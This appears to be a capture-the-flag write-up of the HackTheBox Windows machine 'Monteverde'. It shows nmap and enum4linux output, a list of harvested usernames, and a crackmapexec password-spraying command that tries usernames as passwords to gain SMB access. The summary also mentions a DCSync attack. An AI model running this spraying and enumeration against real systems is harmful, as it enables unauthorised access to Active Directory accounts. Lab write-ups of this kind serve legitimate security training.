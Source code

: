 # Hackthebox - Monteverde

## Summary

Monteverde,a Windows box created by HackTheBox user `egre55`, was an overall medium difficulty box. Initial foothold was finding a cred which was a result of a lazy sysadmin. using that we can find credentials for user in a ```azure.xml``` file. checking the group of that user we see it is in Azure Admin group which mean it can perform DCSync using that we can get administrator credentials and pwned this box.

## Enumeration

### nmap scan

># Nmap 7.80 scan initiated Tue June 2 14:11:44 2020 as: nmap -T4 -sC -sV -oN nmap/monteverde 10.10.10.172
>Nmap scan report for 10.10.10.172
>Host is up (0.21s latency).
>Not shown: 989 filtered ports
>PORT     STATE SERVICE       VERSION
>53/tcp   open  domain?
>| fingerprint-strings:
>|   DNSVersionBindReqTCP:
>|     version
>|_    bind
>88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-01-11 19:22:42Z)
>135/tcp  open  msrpc         Microsoft Windows RPC
>139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
>389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
>445/tcp  open  microsoft-ds?
>464/tcp  open  kpasswd5?
>593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
>636/tcp  open  tcpwrapped
>3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
>3269/tcp open  tcpwrapped
>1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
>SF-Port53-TCP:V=7.80%I=7%D=1/11%Time=5E1A1E53%P=x86_64-pc-linux-gnu%r(DNSV
>SF:ersionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\
>SF:x04bind\0\0\x10\0\x03");
>Service Info: Host: MONTEVERDE; OS: Windows; CPE: cpe:/o:microsoft:windows
>
>Host script results:
>|_clock-skew: 9m22s
>| smb2-security-mode:
>|   2.02:
>|_    Message signing enabled and required
>| smb2-time:
>|   date: 2020-01-11T19:23:57
>|_  start_date: N/A
>
>Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
># Nmap done at Sat Jan 11 14:17:14 2020 -- 1 IP address (1 host up) scanned in 329.68 seconds

we see all the ports are `Active Directory` and `SMB` related

running `emum4linux` we get a list of usernames.

>=============================
>|    Users on 10.10.10.172    |
>=============================
>index: 0xfb6 RID: 0x450 acb: 0x00000210 Account: AAD_987d7f2f57d2	Name: AAD_987d7f2f57d2	Desc: Service account for the Synchronization Service with installation identifier 05c97990-7587-4a3d-b312-309adfc172d9 running on computer MONTEVERDE.
>index: 0xfd0 RID: 0xa35 acb: 0x00000210 Account: dgalanos	Name: Dimitris Galanos	Desc: (null)
>index: 0xedb RID: 0x1f5 acb: 0x00000215 Account: Guest	Name: (null)	Desc: Built-in account for guest access to the computer/domain
>index: 0xfc3 RID: 0x641 acb: 0x00000210 Account: mhope	Name: Mike Hope	Desc: (null)
>index: 0xfd1 RID: 0xa36 acb: 0x00000210 Account: roleary	Name: Ray O'Leary	Desc: (null)
>index: 0xfc5 RID: 0xa2a acb: 0x00000210 Account: SABatchJobs	Name: SABatchJobs	Desc: (null)
>index: 0xfd2 RID: 0xa37 acb: 0x00000210 Account: smorgan	Name: Sally Morgan	Desc: (null)
>index: 0xfc6 RID: 0xa2b acb: 0x00000210 Account: svc-ata	Name: svc-ata	Desc: (null)
>index: 0xfc7 RID: 0xa2c acb: 0x00000210 Account: svc-bexec	Name: svc-bexec	Desc: (null)
>index: 0xfc8 RID: 0xa2d acb: 0x00000210 Account: svc-netapp	Name: svc-netapp	Desc: (null)
>
>user:[Guest] rid:[0x1f5]
>user:[AAD_987d7f2f57d2] rid:[0x450]
>user:[mhope] rid:[0x641]
>user:[SABatchJobs] rid:[0xa2a]
>user:[svc-ata] rid:[0xa2b]
>user:[svc-bexec] rid:[0xa2c]
>user:[svc-netapp] rid:[0xa2d]
>user:[dgalanos] rid:[0xa35]
>user:[roleary] rid:[0xa36]
>user:[smorgan] rid:[0xa37]

using that we can create a `users.txt` as

>Guest
>AAD_987d7f2f57d2
>mhope
>SABatchJobs
>svc-ata
>svc-bexec
>svc-netapp
>dgalanos
>roleary
>smorgan

> crackmapexec smb 10.10.10.172 -u users.txt -p users.txt

Trying the same username as password we get a successful credential as SABatchJobs:SABatchJobs

Trying that on winrm we get Invalid credential so lets try on smb, and Bingo

we can list and Read lot of shares checking //10.10.10.172/users$ share we see there is a `azure.xml` in mhope directory

